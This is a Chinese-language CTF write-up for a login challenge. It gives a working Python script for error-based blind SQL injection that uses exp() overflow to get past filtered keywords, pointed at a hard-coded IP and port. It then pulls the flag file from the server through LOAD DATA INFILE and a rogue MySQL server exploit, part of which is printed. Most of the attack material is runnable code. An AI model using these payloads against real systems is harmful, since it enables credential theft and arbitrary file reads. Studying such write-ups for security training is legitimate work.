

# 全宇宙最简单的SQL

## 操作内容

用户名存在sql注入.一大堆被过滤了:sleep,benchmark,or...就基于报错的盲注
利用exp(大数*语句)实现将 语句结果0 转化为报错.

```python
#coding=utf8
import requests
tab=[]
for x in range(32,128):
    if chr(x) not in "#%\"'+-./":
        tab.append(chr(x))
#print tab
#payload='''admin'and exp(2579*(select (select `2` from ( select 1,2 union select * from user )gg limit 1,1) like "{}%"))  #'''
payload='''admin'and exp(2579*(select ascii (substring((select `2` from ( select 1,2 union select * from user )gg limit 1,1),{},1)) = {}))  #'''
url="http://39.106.224.151:52105/"
dd=""
for y in range(0x20):
    for x in range(31,128):
        tmp=payload.format(str(y),str(x))
        #print tmp
        data={
            'username': tmp,
            'password':'1' 
        }
        res=requests.post(url=url,data=data)
        if "登陆失" not in res.content:
            dd+=chr(x)
            print dd
```

得到密码
进去之后发现可以连接外部数据库  可以查询
然后就LOAD DATA INFILE
之后利用load进来远程的flag
位置就是密码里面的位置.
利用`https://github.com/allyshka/Rogue-MySql-Server`exp
vps上脚本跑起来让服务端连就可以了

exp

```php
#!/usr/bin/env python
#coding: utf8


import socket
import asyncore
import asynchat
import struct
import random
import logging
import logging.handlers


PORT = 3306

log = logging.getLogger(__name__)

log.setLevel(logging.INFO)
tmp_format = logging.handlers.WatchedFileHandler('mysql.log', 'ab')
tmp_format.setFormatter(logging.Formatter("%(asctime)s:%(levelname)s:%(message)s"))
log.addHandler(
    tmp_format
)

filelist = (
    '/fll1llag_h3r3',
)

...
```

